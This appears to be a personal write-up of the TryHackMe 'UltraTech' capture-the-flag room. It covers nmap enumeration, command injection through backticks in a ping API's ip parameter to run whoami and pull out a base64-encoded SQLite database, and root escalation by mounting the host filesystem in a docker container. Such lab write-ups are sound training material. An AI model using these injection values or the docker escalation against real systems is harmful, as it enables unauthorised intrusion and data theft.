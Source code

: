 
2024-07-11 20:46

Source: #web #privesc #Boot2root 
#### Enumeration 
```
nmap -sCV -v $IP 
```
non-standard port in use?
```
nmap -p- -v $IP
```
1. we find 31331 
2. 8081 has a website hosted that isn't leading anywhere so we try 31331, there we have a proper webpage of ultratech 
3. going to robots.txt we find the site map
#### Exploitation 

we see there is an `api` running that helps in pinging 
```
curl 'http://<ip.address>:8081/ping?ip=`whoami`'
```
above command would otherwise be used to ping an IP address but here with command substitution we can perform command [[injection]] 

since we have an API running we can use `/health` and `/status`

in order to get the data of the [[database]] we try to return the value as a [[base64]] encoding 
```
10.10.65.179:8081/ping?ip=`base64 -w 0 utech.db.sqlite`
```
`-w 0` to make it all one long line
save the file with `.b64` extension the decode it using `base64 -d file.b64

check if a service is available on a machine or not by using - `which service_name`

we can try [[character escape]] by using `\|` instead of `|`
#### Escalation

```
find / -perm -4000 2>/dev/null
```

if nothing sticks out from the above command 
1. go to the `opt` directory  
2. we find `containerd` dir 
3. check the group we are in by using `id` command 
since we are in the docker group we can use find exploits in gtfobins for [[docker]] 
- find local docker images using `docker images`
- run the below command further (bash is the local image found on the machine)
```
docker run -v /:/mnt --rm -it bash
```

### References
[TryHackMe | UltraTech](https://tryhackme.com/r/room/ultratech1)

video soln- 
https://www.youtube.com/watch?v=b8hUHRus6cw

[TryHackMe - Ultratech – sckull](https://sckull.github.io/posts/ultratech/#ftp-ssh)